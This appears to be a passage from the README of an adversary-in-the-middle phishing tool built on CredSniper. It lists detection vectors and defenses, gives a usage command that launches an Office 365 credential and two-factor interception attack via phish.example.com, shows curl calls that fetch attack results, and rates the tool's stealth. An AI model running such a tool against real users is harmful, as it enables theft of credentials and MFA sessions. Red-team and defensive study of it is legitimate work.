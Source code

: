 ### Detection Vectors
- **Certificate Transparency Logs**: Phishing domains exposed
- **Network Traffic Analysis**: Proxy patterns detectable
- **Microsoft Sentinel**: Built-in AiTM detection rules
- **Conditional Access**: Geographic and risk-based blocking

### Recommended Defenses
- **FIDO2/WebAuthn**: Hardware-based authentication
- **Certificate Pinning**: Prevent proxy interception
- **Network Monitoring**: Detect suspicious proxy traffic
- **User Education**: URL verification training

## 🚀 Usage Examples

### Basic AiTM Attack
```bash
python3 credsniper.py \
  --module office365 \
  --final https://office.com \
  --hostname phish.example.com \
  --twofactor \
  --ssl
```

### Testing & Validation
```bash
# Run comprehensive tests
python3 core/test_harness.py --save-artifacts --output results.json

# Syntax validation
python3 syntax_check.py
```

### API Management
```bash
# Check AiTM status
curl "http://localhost/aitm/status?api_token=TOKEN"

# Get attack results
curl "http://localhost/aitm/results?api_token=TOKEN"
```

## 📈 Performance Characteristics

### AiTM Mode
- **Stealth**: ⭐⭐⭐⭐⭐ (Completely transparent)
- **Speed**: ⭐⭐⭐⭐ (Real-time interception)
- **Reliability**: ⭐⭐⭐ (Requires victim interaction)
- **Detection Resistance**: ⭐⭐⭐⭐⭐ (Very difficult to detect)
